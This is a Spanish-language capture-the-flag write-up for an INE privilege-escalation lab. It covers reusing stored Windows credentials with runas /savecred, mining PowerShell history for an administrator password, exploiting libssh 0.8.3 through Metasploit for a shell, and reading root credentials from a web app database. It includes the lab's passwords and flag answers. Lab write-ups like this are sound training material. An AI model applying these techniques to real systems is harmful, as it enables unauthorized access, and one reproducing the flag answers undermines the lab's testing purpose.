




# Privilege Escalation CTF 1

<p align="center"> 

</p>

## Task 1: Extract stored credentials from target1.ine.local

Some user credentials might be stored in the system. Use these credentials on target1.ine.local to capture the first flag.

En esta ocasión, tendremos dos máquina una llamada **INE** y otra llamada **target1.ine.local**, a continuación, en esta primera actividad trabajaremos con **target1.ine.local**.

Como no sabemos nada de esta maquina:

- Lo primero que hay que saber que credenciales hay guardadas en el equipo (nombres de usuario y contraseñas almacenadas para entrar a otras máquinas o servicios).

```
cmdkey /list
```

<p align="center"> 

</p>

+ En segundo lugar, se necesita saber que permiso tienes el usuario actual.

```
whoami /priv
```

<p align="center"> 

</p>

> **SeChangeNotifyPrivilege**. Permite al usuario "atravesar" carpetas (bypass traverse checking). Es decir, si quieres entrar a la carpeta C, pero no tienes permiso de lectura en la carpeta B que está en medio, este privilegio te permite pasar de largo para llegar a tu destino.

* En tercer lugar, saber que usuarios forman el grupo **Administrator** y los usuarios que lo forman son: **Administrator** y **ssm-user**

```
net localgroup Administrators
```

<p align="center"> 

</p>

Gracias al comando **cmdkey /list** sabemos que le sistema tiene guarda la contraseña del usuario **john** por tanto podemos usar el siguiente comando para abrir una shell con el usuario **john**

```
runas.exe /savecred /user:john cmd
whoami
powershell
```

<p align="center"> 

</p>

Para obtener la primerga flag tendriamos que ir a la siguiente ruta:

```
C:\Users\john\Desktop\john-data\flag1.txt
```

answer: **26b162393e464680a64147c1428c72dd**

## Task 2: Analyze system history on target1.ine.local to uncover sensitive data

System history, especially PowerShell history, can reveal hidden secrets. Locate and analyze PowerShell command history on target1.ine.local to retrieve the second flag.

```
Get-Content (Get-PSReadlineOption).HistorySavePath
```

Credenciales: **administrator**:**superStrong_123890**

```
runas.exe /user:administrator cmd
powershell
```

En la siguiente ruta encontramos la flag2.

answer: **185a0ece6c704b84b7d9f653883842e4**

## Task 3: Exploit vulnerable services on target2.ine.local to gain a shell

Find and exploit vulnerable services on target2.ine.local to obtain shell access. Metasploit could be useful in gaining a foothold on the system and capturing the third flag.

En esta tarea tenemos que trabajar en la maquina **INE** 

En primer lugar haremos un nmap a **target2.ine.local**

```
sudo nmap -p- --open -sS -sC -sV -n -vvv -Pn target2.ine.local 
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 libssh 0.8.3 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b:64:85:23:0a:39:2c:7d:75:84:1b:d5:b8:4e:eb:04 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDdQPgNbGBzYSkFZ5nktbmnuU8VxVez/apmHjHTTL2Z8bimZZteSA23oNLPtN/wIh41gvGMfL//dthTdBPDVwy2tFyqmlVORY4lEWeE6IgD19Lc3yOuEagek3ZQr7B/mYm6QfFTVXd2NUJ8+2DAu7HbjPBkusuoJxHKMqqcIEsrAYVYDoWMKRDu5I84Gn9fUbLtQipWTFUrA3Z9d7qlB65ZX1l+uus9XlkdBC6xl58OTi06/F7VJM2pBR5GV872P+St8HLJH52+mm7uGuBhOpwxIpnN3OmRMQ+rbLWj+GYtJwq/j933ee/VlVhFqU6pgOxUSSx0gsNE9GW6ejDDg7nP
80/tcp open  http    syn-ack ttl 64 Werkzeug/3.1.3 Python/3.13.1
|_http-server-header: Werkzeug/3.1.3 Python/3.13.1
```

Observamos el puerto 22 que tiene la version **libssh 0.8.3**, buscamos en metasploit si es vulnrable

```
msfconsole -q
search libssh
```

<p align="center"> 

</p>

```
use 0
set RHOSTS target2.ine.local
set SPAWN_PTY true
run
sessions -i
```

<p align="center"> 

</p>

```
sessions -i 2
```

<p align="center"> 

</p>

answer: **a5752104dc6045d5aead22346d82b26f**

## Task 4: Extract database files on target2.ine.local to retrieve root credentials

The web application database files may contain credentials that can help escalate privileges to the root user. Locate and extract these database files on target2.ine.local to capture the final flag.

Dentro de la sesion de la actividad anterior, en un archivo de la bbdd se encontrará las 
credenciales de root dentro de **/home/webapp/database.db** estan las credenciales que se busca

```
cat /home/webapp/database.db
```

Credenciales --> **root**:**strongP@ssowrd123!!**

```
su root
cat /root/flag4.txt
```

answer: **a0a0722e444543d88e7315134f962ef6**
